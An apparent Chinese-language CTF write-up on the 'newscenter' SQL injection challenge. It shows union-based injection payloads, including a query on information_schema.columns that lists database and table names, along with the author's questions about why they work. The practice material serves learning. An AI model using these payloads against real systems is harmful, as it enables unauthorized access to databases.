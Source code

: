 ## 一. sql注入题目

### 1.1 newscenter

1. **题目：攻防世界web高手进阶区的newscenter题目：**

   - 为什么要使用单引号`'`，为什么要使用`#`，联合查询的时候，直接select 1，2，3看结果回显哪一个？？为什么还要 0 union。

     `'and 0 union select 1,2,3 # `

     ***（注：这里看了别的writeup，好像 111‘ union select 1,2,3 # 也OK ）***

     ![image-20210203205653243](images/image-20210203205653243.png)

     

   - 由于上面的查询语句得到的是2 3的结果，所以这题的思路就是在2 3位置输入查询的数据库名和表名。
   
     ````mysql
  ' and 0 union select 1, table_schema,table_name from information_schema.columns #
     ````

     ![image-20210203205912343](images/image-20210203205912343.png)

     ![image-20210203205929110](images/image-20210203205929110.png)
